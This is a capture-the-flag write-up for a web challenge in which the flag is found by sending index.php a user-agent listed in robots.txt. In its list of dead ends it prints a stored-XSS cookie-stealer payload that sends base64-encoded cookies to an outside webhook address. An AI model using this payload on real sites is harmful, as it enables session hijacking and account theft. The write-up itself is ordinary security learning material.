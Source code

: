 # Secret Agent (500p)
## Challenge Description  

<em> In the world of spies, secrets are a part of your living. Someone that is more that familliar with this is Ghost. Ghost has handled some of the most notorious and famour spies through all times. Does James Bond and Natasha Romanoff ring any bells? Well, they should.

How did they (and so many more) become so successful in their line of duty? They had help of course! By no other than Ghost. While they've been showing off in the spotlights, he's been there in the background.

Since he hates robots and AI, we have had the honor of having him joining our ranks in the war against the machines. Ghost only communicate and share his secrets (that his double agents provides him with) through a secure commiuncation channels.

He is, however, secrative and will not spill any of his beans to anyone he belives to be a robot that is just probing him for information. We know that he has some secret to share, please convince him that you are human and it will be worth all the candy in the world.

Note: This challenge will reset every 15 minutes.

Author: Jimmie Rudvall
https://secret-agent.appsec.nu </em>

## Thought Process
- "There is user input, it must be something related to that, like XSS or SQLi!" I found unfiltered stored XSS and could do a cookie stealer attack with `<img src="lol" onerror=window.location="*my_webhook.site_address*/?cookie="+btoa(document.cookie)>`, but with no one else visiting the page (session was unique to your current PHPSESSID cookie), I could only steal my own cookie.
- Desc hints at Ghost only communicating through secure channels, so I tried both http and https as well as modifying `Httponly` and `Secure` attributes of the cookie to `True`
- Desc hints at Ghost hating robots, so desperately use stored XSS to modify my appeared name and profile picture in the chat into something that is more "human"
- Landing page is `index.php`, desperately try `index.html`. It works, a different page! (This was just another rabbithole...)
- Description says something about hating robots, so try "Human" as user agent maybe?
- Throwing pretty much everything I got at the app (too much to list), while re-reading the description for potential missed hints every 30 minutes
- `gobuster` (directory enumeration tool) with several extensions (for example `.txt`,`.php`,`.js`) overload the server and cause requests to fail. A very useful tool, but not usually for CTF:s as it becomes stressful for the servers, and as such, challengemakers don't construct challenges with brute-forcing as the intended solution. I try anyway in desperation, without the extensions to get it to complete, and I find `index.html`(which I had already manually found) and `robots.txt`... Oh no, don't tell me ...

## Solution
1. Once again: less is more. Check out `/robots.txt` where we are informed of an allowed user-agent: `I-Solemnly-Swear-That-I-Am-No-Robot`. (Checking out `/robots.txt` is a common step in the enumeration phase of a web pentest, as it is easy to do and can provide valuable info regarding the structure of the site. Do not be like me and neglect this simple yet crucial thing for the longest time.)
2. Request `index.php` with the special user-agent (Can be done with a proxy service like `Burpsuite`, with `curl` or even in the Network tab of the browser inspector), and the flag is there.
